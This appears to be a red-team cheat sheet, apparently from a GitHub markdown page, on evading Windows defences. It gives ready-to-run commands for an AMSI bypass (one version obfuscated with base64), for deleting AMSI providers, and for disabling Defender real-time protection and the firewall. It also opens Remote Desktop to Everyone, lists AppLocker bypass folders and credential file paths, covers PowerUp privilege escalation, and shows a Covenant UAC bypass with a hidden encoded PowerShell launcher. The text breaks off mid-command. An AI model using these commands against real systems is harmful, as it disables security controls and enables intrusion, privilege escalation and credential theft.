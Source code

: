 #  Bypass Windows AMSI / AV Evasion
### Shell:
Bypass using commands in the shell
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```
### AMSITrigger.exe
Using [AMSITrigger.exe](https://github.com/RythmStick/AMSITrigger). This will show powershell triggers and help to modify the payload manually.
```powershell
AmsiTrigger.exe -i shell.ps1
```
### Invoke-Obfuscation
Using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation). As it encodes the payload in numerous ways.
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK <Payload>
OR
SET SCRIPTPATH <URL of payload>
```
### ThreatCheck
Using [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). We can find the bad chars and then edit it using `hexeditor` in linux to a new file to bypass the defender and AV. By default, the bad chars are at the bottom.
```powershell
ThreatCheck.exe -f Grunt.bin -e AMSI, Defender
```
### Hoaxshell
Using [Hoaxshell](https://github.com/t3l3machus/hoaxshell). We can bypass AV using the payload generated by Hoaxshell.
```powershell
./hoaxshell.py -s <LHOST>
```

# Disable real-time protection on Windows.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Turn Firewall off on Windows:
```bash
netsh advfirewall set allprofiles state off
```
# Remote Desktop Connection:
```bash
net localgroup "Remote Desktop Users" Everyone /Add
```

# Bypass Windows Applocker

- Location.

 `C:\Windows\System32\spool\drivers\color`
 
 - [applocker-bypas-checker.ps1](https://github.com/sparcflow/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1) is a powershell script that returns folders for bypass applocker.

```powershell
  .\applocker.ps1
[*] Processing folders recursively in C:\windows
[+]  C:\windows\Tasks
[+]  C:\windows\tracing
[+]  C:\windows\System32\spool\drivers\color
[+]  C:\windows\tracing\ProcessMonitor
```

# Powershell command history

  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

# Users' passwords in base64 encoding.

  `C:\Windows\Panther\Unattend\Unattended.xml`

# Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

   ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```
# UAC Bypass (Covenant)
- In covenant, Import PowerShell script named [Helper.ps1](https://github.com/microsoft/PowerShellForGitHub/blob/master/Helpers.ps1).
- Run the cmd: ` PowerShell helper -custom "cmd.exe /c <powershell launcher command>"`
- Few seconds after sending the command we get a new Grunts to our Covenant.

```powershell
(singhx) > PowerShellImport

PowerShell Imported

[07/24/2023 18:28:20 UTC] PowerShell completed

(singhx) > powershell helper -custom "cmd.exe /c powershell -Sta -Nop -Window Hidden -EncodedCommand 

